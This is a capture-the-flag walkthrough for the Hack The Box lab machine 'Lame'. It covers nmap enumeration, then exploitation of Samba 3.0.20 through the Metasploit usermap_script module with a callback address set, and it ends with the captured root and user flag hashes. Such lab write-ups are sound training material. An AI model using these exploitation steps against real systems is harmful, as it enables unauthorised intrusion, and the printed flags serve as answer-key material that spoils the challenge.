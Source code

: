 # Lame

## 1. Overview

### 1.1. Attacks

* Samba

### 1.2. Tools used

**Enumeration** &rarr; ``.

**Exploitation** &rarr; ``.

## 2. Walkthrough

### 2.1. Enumeration

#### 2.1.1. nmap
Search with `nmap`:

```bash
nmap -A -p- -T4 10.10.10.3
```

##### 2.1.1.1. Ports

![Lame Ports](_v_images/20201003212147744_9896.png)

* **Port: 21 (ftp)** &rarr; vsftpd 2.3.4
* **Port: 22 (ssh)** &rarr; Open SSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
* **Port: 139 (netbios-ssn)** &rarr; Samba smbd 3.X - 4.X
* **Port: 445 (netbios-ssn)** &rarr; Samba smbd 3.0.20-Debian
* **Port: 3632 (distccd)** &rarr; distccd v1

##### 2.1.1.2. Host Details

![Lame Host Details](_v_images/20201003212552432_15255.png)
![Lame Host Script Results](_v_images/20201003212621286_30855.png)

* **OS** &rarr; Linux 2.6.30 / Unix (Samba 3.0.20-Debian)
* **Computer name** &rarr; Lame
* **Smb-Security-Mode**
    * **Message_Signing** &rarr; disabled

Samba looks exploitable.

### 2.2. Exploitation

#### 2.2.1. Sources

**Google:** `samba Unix (Samba 3.0.20-Debian) exploit`

[[Rapid7] Samba "username map script" Command Execution ](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script)

#### 2.2.2. Metasploit

```msf
msf5 > use exploit/multi/samba/usermap_script
msf5 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(multi/samba/usermap_script) > set LHOST 10.10.14.7
LHOST => 10.10.14.7
msf5 exploit(multi/samba/usermap_script) > run
```

```bash
cat root/root.txt
92caac3be140ef409e45721348a4e9df

cat home/makis/user.txt
69454a937d94f5f0225ea00acd2e84c5
```

* **Own User** &rarr; `69454a937d94f5f0225ea00acd2e84c5`
* **Own Root** &rarr; `92caac3be140ef409e45721348a4e9df`
